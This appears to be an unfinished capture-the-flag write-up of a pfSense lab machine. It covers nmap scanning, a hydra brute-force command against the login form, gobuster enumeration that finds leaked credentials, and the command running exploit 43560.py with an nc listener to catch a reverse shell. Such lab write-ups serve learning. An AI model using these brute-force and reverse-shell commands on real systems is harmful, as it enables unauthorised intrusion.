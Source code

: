 #manual #OpenBSD #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 14:04 EDT
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 63.82% done; ETC: 14:07 (0:01:15 remaining)
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.20 seconds

```

The scan gives us an initial and potentially our only attack vector via web. Solving this box, I know this is the case. In the future, though, I'd recommend running `nmap -sT` or `nmap -sU` coupled with `full` in order to tackle all TCP and UDP ports if you've got the time and means!
### Enumeration

![Image](/assets/Screenshot 2024-09-09 at 2.12.09 PM.png)

We're led to this login portal, and a few things to note here. The importance of default credentials goes without saying. Do your research. Also, be wary of exhausting attempts and forcing a lockout on a machine. Should you want to see as a POC, run:

````
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
````

You'll get stiffed after 15 attempts. After research, we find default credentials for the service are `admin` and `pfsense`, being USER/PASS. These do not work, and it forces us to enumerate web directories.

Using gobuster, we'll use:


```
gobuster dir -u https://10.10.10.60 -x php, txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -k
```

Where the `-x` denotes filetypes, and the `-k` tells gobuster to skip SSL verification. This machine hammers home the importance of intentional enumeration and patience. You have to know what it is you're looking for, and be willing to be patient in receiving it.


We can navigate to the directories that seem interesting. While perusing through, `system-users.txt` dropped some creds!

![Image](/assets/Screenshot 2024-09-09 at 2.24.51 PM.png)

Using these, we are able to gain access to the initial portal.

![Image](/assets/Screenshot 2024-09-09 at 2.26.21 PM.png)

Now that we've got more detailed information about versions, lets cross check with `searchsploit`.

![Image](/assets/Screenshot 2024-09-09 at 2.29.08 PM.png)

This one detailing versions before 2.1.4 seems to be a good pick. We can move it to our present directory by using: `searchsploit -m 43560.py`. Now let's see what's happening under the hood.

![Image](/assets/Screenshot 2024-09-09 at 2.33.16 PM.png)

The `status_rrd_graph_img.php` is vulnerable to command injections. The script seems to be passing the shell through parameters in the function, and it's our job to catch it with a listener. So, lets set one up.

`rlwrap nc -nlvp 4321`

Once again, the `rlwrap` establishes control with the arrow keys in the shell granted.

`python3 43560.py --lhost 10.10.14.3 --lport 4321 --rhost 10.10.10.60 --username rohit --password pfsense
`
This will configure our parameters for passing the shell through the header with the python script.





### Initial Access
### Privilege Escalation
